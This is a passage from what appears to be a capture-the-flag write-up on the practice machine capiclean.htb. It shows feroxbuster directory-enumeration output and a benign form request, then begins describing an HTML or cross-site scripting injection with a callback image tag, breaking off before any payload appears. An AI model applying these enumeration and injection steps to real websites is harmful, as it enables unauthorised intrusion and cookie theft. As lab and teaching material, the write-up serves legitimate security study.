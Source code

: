 ```
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      349l     1208w    16697c http://capiclean.htb/
302      GET        5l       22w      189c http://capiclean.htb/logout => http://capiclean.htb/
200      GET       88l      159w     2106c http://capiclean.htb/login
200      GET      130l      355w     5267c http://capiclean.htb/about
200      GET      193l      579w     8592c http://capiclean.htb/services
302      GET        5l       22w      189c http://capiclean.htb/dashboard => http://capiclean.htb/
200      GET      183l      564w     8109c http://capiclean.htb/team
200      GET       90l      181w     2237c http://capiclean.htb/quote
403      GET        9l       28w      278c http://capiclean.htb/server-status
200      GET      154l      399w     6084c http://capiclean.htb/choose
[####################] - 2m     30000/30000   0s      found:10      errors:39
[####################] - 2m     30000/30000   261/s   http://capiclean.htb/  

```

`/dashboard` is new, but redirects to `/`, likely because it requires auth. The rest I’ve seen before.

## Shell as www-data

### Dashboard Access

#### HTML Injection POC

I’ll check for cross-site scripting in the quote form. A benign request looks like:

```

POST /sendMessage HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://capiclean.htb
Connection: close
Referer: http://capiclean.htb/quote

service=Carpet+Cleaning&email=0xdf%40capiclean.htb

```

I’ll send it to repeater and try poisoning both fields with HTML injection with an image tag that will try to connect back. For example:
